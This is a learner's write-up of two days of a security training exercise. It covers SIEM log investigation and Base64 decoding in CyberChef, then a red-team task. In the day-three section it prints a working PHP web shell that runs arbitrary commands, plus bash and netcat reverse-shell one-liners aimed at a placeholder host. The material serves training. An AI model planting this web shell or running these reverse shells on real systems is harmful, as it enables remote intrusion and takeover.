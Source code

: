 
### DAY TWO ###

Day two starts with more introductions - this time it introduces the true-positive and false-positive concept of detecting and assessing the types of activity by security. FP when it's malicious activity and all hell can break loose. TP on sysadmin can make people mad. But then again - if it's legit a phonecall or email beforehand can help mitigate such situations. If it's not legit there won't be any response, right? But yeah, it's not all fun and games as there are so many variables that need the person in charge to do a lot of correlation and digging. Some things are more suspicious than others.
The activity itself had us 'login' to a SIEM \(Security Information and Event Management\) system and investigate some events that have been recorded. They also show us how to create columns so the logs are more readable, which is nice. We learn how to filter some more, gradually getting to the information about the source and whatnot, allowing us to identify malicious activity and we go even deeper, even identifying the powershell command that needed to be decoded and whatnot. Useful tool - [CyberChef](https://gchq.github.io/CyberChef/). For non-critical stuff, nothing personal or real it's okay to use that instance but to be sure it's better to have a local copy that runs completely locally. It can be had from [HERE](https://gchq.github.io/CyberChef/CyberChef_v10.19.4.zip). Anywho - we learn how to use that tool to decode Base64 - `FromBase64` and `Decode text` 'recipes' are needed to do that.

### DAY THREE ###

Third day started with a small recap of blue teaming and then we got to red teaming too. So that was more hands on and it gave me quite some fun! I poked and prodded around and now I know even more than bafore and getting the right idea is over half of the battle. Basically we had to figure out how the 'attacker' got the shell inside and do the same, using the code below to cat one file. Also I kinda feel like the question about IP is mislabeled as RED TEAM when info from that is only available in logs. And RED TEAMERS should know their IPs already...

Reverse shell.php:
>```html
><html>
><body>
><form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
><input type="text" name="command" autofocus id="command" size="50">
><input type="submit" value="Execute">
></form>
><pre>
><?php
>    if(isset($_GET['command'])) 
>    {
>        system($_GET['command'] . ' 2>&1'); 
>    }
>?>
></pre>
></body>
></html>
>```
Useful commands:
>| Command |	Use |
>| --- | --- |
>| `ls` | 	Will give you an idea of what files/directories surround you |
>| `pwd` | 	Will give you an idea of where in the system you are |
>| `whoami` | 	Will let you know who you are in the system |
>| `hostname` | 	The system name and potentially its role in the network |
>| `uname -a` | 	Will give you some system information like the OS, kernel version, and more |
>| `id` | 	If the current user is assigned to any groups |
>| `ifconfig` | 	Allows you to understand the system's network setup |
>| `bash -i >& /dev/tcp/<your-ip>/<port> 0>&1` | 	A command used to begin a reverse shell via bash |
>| `nc -e /bin/sh <your-ip> <port>` | 	A command used to begin a reverse shell via Netcat |